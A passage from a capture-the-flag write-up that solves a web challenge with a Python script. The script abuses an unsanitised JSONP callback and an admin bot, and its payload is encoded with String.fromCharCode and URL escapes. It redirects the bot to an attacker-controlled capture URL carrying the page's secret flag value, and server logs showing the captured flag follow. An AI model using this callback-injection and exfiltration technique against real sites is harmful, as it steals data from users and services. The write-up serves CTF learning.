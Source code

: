 ## Build the exploit

```python
import requests
import re

def botProof(s):
    return s.replace("&&", "%26%26").replace(";", "%3B").replace("|", "%7C").replace("(", "%28").replace("}", "%7B")

def escapeProof(s):
    res = "String.fromCharCode("+str(ord(s[0]))+")"
    for c in s[1:]:
        res+=".concat(String.fromCharCode("+str(ord(c))+"))"
    return res

URL="http://localhost:5000"
CAPTURE_URL="http://LOCAL_MACHINE_IP:8080/BLA/"

LOGIN={'username': 'user', 'password':'password'}
session = requests.session()

STYLE="{ color: red; }"  # Dummy style
CALLBACK=botProof('window.location.replace('+
                  escapeProof(CAPTURE_URL)+
                  '.concat(document.getElementById('+
                  escapeProof("flag")+
                  ').value));updateStyle')

# Initialize user
session.post(URL+"/register", data=LOGIN)
session.post(URL+"/login", data=LOGIN)
# Generate a share, get the ID
resp = session.post(URL+"/generate_link", json={'style': STYLE})
share_id = re.search('share_id=([0-9a-f]+)', resp.text).group(1)
# Trigger the bot
session.post(URL+"/bot", data={'url': '/share?share_id='+share_id+"&callback="+CALLBACK})
```

And this works!

```
192.168.254.2 - - [29/Sep/2024 18:53:04] "GET /BLA/fake_flag HTTP/1.1" 404 -
```

# Getting the remote flag

First, we need a public Web server. AWS instance will do just fine.
Then, we run the server there, replace `URL` and `CAPTURE_URL` and
just watch the logs:

```
# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
(...)
128.140.62.133 - - [29/Sep/2024 15:56:19] "GET /BLA/l3ak1ngsecrets HTTP/1.1" 404 -
```

---

## `shc2023{l3ak1ngsecrets}`


<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
